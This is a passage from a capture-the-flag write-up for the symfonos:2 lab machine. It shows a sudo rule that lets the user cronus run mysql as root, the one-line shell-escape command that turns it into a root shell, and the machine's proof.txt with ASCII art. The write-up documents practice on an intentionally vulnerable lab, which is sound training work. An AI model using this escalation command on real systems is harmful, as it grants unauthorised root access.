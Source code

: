 >> so at last run sudo -l and cronus user run mysql as super user(root)

# so run following command and got a root shell

# sudo  /usr/bin/mysql -e  '\! /bin/sh'

# content in proof.txt file

Congrats on rooting symfonos:2!

           ,   ,
         ,-`{-`/
      ,-~ , \ {-~~-,
    ,~  ,   ,`,-~~-,`,
  ,`   ,   { {      } }                                             }/
 ;     ,--/`\ \    / /                                     }/      /,/
;  ,-./      \ \  { {  (                                  /,;    ,/ ,/
; /   `       } } `, `-`-.___                            / `,  ,/  `,/
 \|         ,`,`    `~.___,---}                         / ,`,,/  ,`,;
  `        { {                                     __  /  ,`/   ,`,;
        /   \ \                                 _,`, `{  `,{   `,`;`
       {     } }       /~\         .-:::-.     (--,   ;\ `,}  `,`;
       \\._./ /      /` , \      ,:::::::::,     `~;   \},/  `,`;     ,-=-
        `-..-`      /. `  .\_   ;:::::::::::;  __,{     `/  `,`;     {
                   / , ~ . ^ `~`\:::::::::::<<~>-,,`,    `-,  ``,_    }
                /~~ . `  . ~  , .`~~\:::::::;    _-~  ;__,        `,-`
       /`\    /~,  . ~ , '  `  ,  .` \::::;`   <<<~```   ``-,,__   ;
      /` .`\ /` .  ^  ,  ~  ,  . ` . ~\~                       \\, `,__
     / ` , ,`\.  ` ~  ,  ^ ,  `  ~ . . ``~~~`,                   `-`--, \
    / , ~ . ~ \ , ` .  ^  `  , . ^   .   , ` .`-,___,---,__            ``
  /` ` . ~ . ` `\ `  ~  ,  .  ,  `  ,  . ~  ^  ,  .  ~  , .`~---,___
/` . `  ,  . ~ , \  `  ~  ,  .  ^  ,  ~  .  `  ,  ~  .  ^  ,  ~  .  `-,

	Contact me via Twitter @zayotic to give feedback!



 


